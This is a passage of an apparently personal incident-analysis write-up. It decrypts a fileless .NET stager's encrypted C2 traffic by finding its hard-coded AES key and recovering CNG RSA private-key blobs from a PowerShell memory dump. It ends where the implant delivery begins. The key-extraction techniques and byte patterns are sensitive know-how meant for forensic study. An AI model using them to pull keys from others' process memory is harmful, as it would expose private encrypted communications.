

There was plenty in that output to work with, but raw strings from a .NET binary is noisy and hard to read. Method names, library references, and fragments that all run together with no structure. I could tell at a baseline it dealt with encryption and crypto, web traffic, and credentials, but there was no context to any of them.

### capa

capa, a tool I'd only recently started using, does static analysis of a binary and reports its capabilities, mapped to ATT&CK tactics and MBC (Malware Behavior Catalog) behaviors. It goes further than just the strings, it analyzes the code and matches it against rules for known behavior, making it more readable.


_It uses both AES and RSA, along with C2 behavior._

The next question is about an AES key for C2 traffic, and capa confirms the stager does both AES and RSA. The AES and RSA matches point to the same method. Running with `-v` shows where in the code each capability was found:


_The `-v` output: `token(0x6000004)`._

That token is a .NET metadata token:

- `06` — a **method**
- `000004` — the 4th method defined in the assembly

So the decryption happens in that method. capa tells me *where* AES is used, but not what the key is.

### Finding the initial AES key

I could have decompiled the stager (`ilspycmd` or similar), but I took this as a chance to practice regex instead.

AES comes in three key sizes: 128, 192, and 256 bits. A 256-bit key is 32 bytes, a common choice for C2 implants. Base64 had been used everywhere so far, so I guessed the key would be Base64-encoded too.

Base64 uses letters, numbers, `+`, and `/`, which sets the characters to search for. Next is the length. Each Base64 character carries 6 bits, so every 3 bytes of input become 4 characters. The first 30 bytes of a 32-byte key form 10 full 3-byte groups, which encode to 40 characters. That leaves 2 bytes (16 bits), which need 3 more characters (18 bits, with the last 2 bits filled with zeros), for 43 characters in total. Base64 output always has to be a multiple of 4 characters long, so a single `=` is added as padding, giving 44.


```bash
strings -n 6 -el stager.bin | grep -E '^[A-Za-z0-9+/]{43}=$'
```

I tripped up on this command several times by missing the `-el` because .NET stores string literals as UTF-16LE (2 bytes per character). That caused plain strings to read as broken text. `-el` forces it to read 16-bit little-endian.


_Exactly one match._

There was exactly one match. I also looked at a few lines of context around it. That's **Q4**. I didn't confirm it was really the key until it decrypted the first C2 message.

## Decrypting the C2 channel

### Finding the C2 traffic

The C2 traffic has to start after the stager was downloaded, so I filtered to traffic after that point.



_The attacker is listening for C2 traffic on port 8081, rather than 80 where it hosted the stager._ 


_The first C2 POST from the victim's machine._


_The victim's first check-in._

The request body contains 3 fields, with the data being Base64 encoded:

```text
i=<fixed identifier>&data=<Base64>&session=<session id>
```


_A snippet of the decoded form containing the trailing session and a large chunk of the data_

The `i` value is the same in every C2 request, so I used it as a filter to list the whole C2 conversation:

```text
frame contains "<i value>"
```



Due to the fact that the i value is re-used, along with the same URL paths and message structure, we could write alerts for IPS/IDS such as Suricata or Snort.

### Peeling the layers

The `data` field starts with `eyJ`, which is how `{"` looks in Base64, so it's Base64-encoded JSON:


_`GUID`, `Type`, `Meta`, `IV`, `EncryptedMessage`, and `HMAC`._

AES in CBC mode needs three things: the key, the IV, and the ciphertext. The JSON has the IV and the encrypted message, and I had the key from the stager.

### The key exchange


_The first message: an RSA public key in .NET's XML format._

The first message, `Type: 0`, decrypts to an RSA **public key** (`<Modulus>` and `<Exponent>`), which also confirms the AES key from the stager. I saved the modulus and exponent to files for later.

The attacker's response follows the same format and requires the same process:


_Still encrypted after AES: exactly 256 bytes._

Decrypting it with the initial key and the response's own IV leaves something that's still encrypted, and exactly **256 bytes** long. RSA ciphertext is always the same size as the key's modulus, so this is consistent with a 2048-bit RSA key. I saved it as `session_key_rsa_encrypted.bin`.

Here's what the exchange is doing:

1. **Victim → C2:** "here's my RSA public key," encrypted with the hard-coded initial AES key
2. **C2 → victim:** a new **AES session key**, encrypted with that RSA public key, then wrapped in AES with the initial key
3. **From then on:** everything is encrypted with the **session key**

RSA is only used once, to deliver the session key safely. All traffic after the handshake is AES with the session key. That's why the initial key alone can't decrypt the rest of the capture, and why this design works so well for the attacker. Capturing the network traffic isn't enough, because the RSA private key needed to unlock the session key never crosses the network.

### A quick RSA refresher

RSA is asymmetric: one key encrypts, a different key decrypts.

- Pick two large primes, **p** and **q**
- Modulus **n = p × q**
- Euler's totient **φ(n) = (p − 1)(q − 1)**
- Choose a public exponent **e** that's co-prime with φ(n) (almost always 65537)
- Public key: **(n, e)**
- Private exponent **d** is the number where **(d × e) mod φ(n) = 1** (the modular inverse of e)
- Private key: **(n, d)**

Encrypting a message turned into an integer **m**: **c = mᵉ mod n**. Decrypting: **m = cᵈ mod n**.

Only someone who knows p and q can calculate φ(n), and therefore d. That's the secret.

### Where's the private key?

The private key was generated by the stager, inside `powershell.exe`, and never sent anywhere. Because the stager was fileless, it only ever existed in that process's memory, which is exactly what the second piece of evidence is.

#### Two Windows key formats

My first idea was to search the dump for the modulus. That found the public key XML, but nothing tied to the private key. Searching for how Windows stores RSA keys led to **key BLOBs**, which have fixed binary layouts with an `RSA2` "magic" value marking a private key. There are two formats, depending on which Windows crypto API created the key:

**CryptoAPI `PRIVATEKEYBLOB`** (older):


_An 8-byte `PUBLICKEYSTRUC` header, then `RSAPUBKEY` (magic, bit length, public exponent), then the key values, little-endian._

**CNG `BCRYPT_RSAKEY_BLOB`** (Cryptography Next Generation):

| Offset | Field | Type | Size | Endianness |
|---|---|---|---|---|
| 0 | Magic | ULONG | 4 | little |
| 4 | BitLength | ULONG | 4 | little |
| 8 | cbPublicExp | ULONG | 4 | little |
| 12 | cbModulus | ULONG | 4 | little |
| 16 | cbPrime1 | ULONG | 4 | little |
| 20 | cbPrime2 | ULONG | 4 | little |
| 24 | PublicExponent | bytes | cbPublicExp (3) | big |
| 27 | Modulus | bytes | cbModulus (256) | big |
| 283 | Prime1 (p) | bytes | cbPrime1 (128) | big |
| 411 | Prime2 (q) | bytes | cbPrime2 (128) | big |

[Private Key Blob | Microsoft Docs](https://learn.microsoft.com/en-us/windows/win32/seccrypto/rsa-schannel-key-blobs#private-key-blobs)

[RSA Pubkey | Microsoft Docs](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/ns-wincrypt-rsapubkey)

[BCRYPT RSAKEY Blob | Microsoft Docs](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/ns-bcrypt-bcrypt_rsakey_blob)

Both formats start with `RSA2` followed by the bit length, so the first 8 bytes look identical. They differ at **offset +8**: CryptoAPI stores the public exponent itself there, while CNG stores the exponent's *length*. After that, CryptoAPI stores the modulus little-endian at +12, and CNG stores it big-endian at +27.

The magic value `0x32415352` is stored little-endian as the bytes `52 53 41 32`, which reads as `RSA2` in ASCII, so it can be searched for as plain text.

#### Building the search pattern

The bit length comes from the evidence I already had: the RSA ciphertext was 256 bytes, so the modulus is 256 bytes, which means a **2048-bit** key. 2048 is `0x800`, a 4-byte ULONG `0x00000800`, stored little-endian as `00 08 00 00`.

So each format has its own pattern:

```text
RSA2 + bitlen     + ...
\x52\x53\x41\x32\x00\x08\x00\x00\x01\x00\x01\x00   CryptoAPI (public exponent 65537)
\x52\x53\x41\x32\x00\x08\x00\x00\x03\x00\x00\x00   CNG (cbPublicExp = 3 bytes)
```

```bash
LC_ALL=C grep -obUaP '<byte pattern>' powershell.DMP
```

- `LC_ALL=C` makes grep read byte by byte instead of trying to interpret the file as UTF-8
- `-o` prints only the match, `-b` prints its byte offset
- `-U -a` treat the file as binary data
- `-P` allows writing bytes as `\xNN`


_Zero hits for CryptoAPI, three for CNG._

That identifies the format: **CNG**. It also means two things:

- I know where everything sits relative to the magic value. I just need to work out which of the three blobs is *this* session's key, by comparing the modulus at magic + 27 with the known public modulus.
- A CNG `RSA2` blob stores the exponent, modulus, and the primes **p** and **q**, but **not d**. That's fine, because d can be calculated from p, q, and e.

### Automating it

I chose to write a Python script to automate this process for a few reasons. I hadn't written any "elaborate" Python in the past few months, so I wanted the refresher, and I wanted to write my first cybersecurity tool that I could reuse in the future. And while this dump only contained 3 blobs, manually inspecting each one takes time, and that time adds up with every additional blob.

The script takes three arguments:

- `-d` / `--dump`: the path to the dump file
- `-m` / `--modulus`: the known modulus, either directly or as a path to a file containing it
- `-s` / `--session-key`: the path to the RSA-encrypted session key

The key size is calculated from the modulus, so nothing is hard-coded to 2048 bits.

#### Finding and identifying the blobs

The script searches the dump with `mmap`, which reads it without loading the whole file into memory, and opens it read-only so the evidence can't be modified. It searches for the magic value `RSA2` followed by the bit length, the part both blob formats have in common.

It then identifies the format from the header. If the modulus length matches the key length, the exponent length is small, and both primes are the same length and half the key length, the blob is treated as CNG. If the value at offset +8 is a plausible public exponent (always odd and greater than 1), it's treated as CryptoAPI. CNG is checked first because it's the stricter filter: if CryptoAPI were checked first, a CNG header would pass that check and be misidentified.

#### Parsing and filtering

Each blob is parsed according to its format, and the key values are stored in a data object. The list of blobs is then filtered in stages, keeping only blobs whose modulus matches the known modulus, then only valid blobs (`p * q == n`), and finally removing duplicate copies of the same key.

#### Building the key and decrypting

For each remaining blob, the script calculates the private exponent `d` from `p`, `q`, and `e`, builds the private key, and writes it to a PEM file. It then uses that key to decrypt the session key with RSA-OAEP and outputs the result.

#### Testing

Because the provided dump only contained CNG blobs, I generated test data containing both formats along with unrelated keys. The script was expected to identify the correct blob and decrypt a known session key, and it did. It still needs more testing on real-world dumps.

[Link to my script](https://github.com/mhildom/rsadump/blob/main/)


_Two matching copies of the same key, validated, and the session key recovered._

Two of the three CNG blobs had a modulus matching this session's key. They were duplicate copies of the same key about 6 KB apart. The third blob's modulus didn't match, so it was a different key in the process. The output at the end is the **32-byte** AES session key.

## Reading the C2 traffic

With the session key, every message after the handshake decrypts the same way: get the JSON, take **that message's** IV, and decrypt with the session key. Every message has its own IV.


_Overall Follow stream for Challenge process_



_Decoded and Decrypted initial Challenge._


_Decoded and Decrypted Counter-Challenge._


_Decoded and Decrypted Counter-Challenge response._

You can see a pretty standard challenge counter-challenge exchange, the victim sent `70 22 07 41` (frame 4749), the attacker sent back `70 22 07 41` + `d9 d4 b2 b0` (frame 4751), and the victim sent back `d9 d4 b2 b0` (frame 4755). This proves both parties hold the same session key and are able to both encrypt and decrypt using it.

### Delivering the implant

After the challenge, the attacker sent a large payload split across many packets (reassembled in frame 4797).

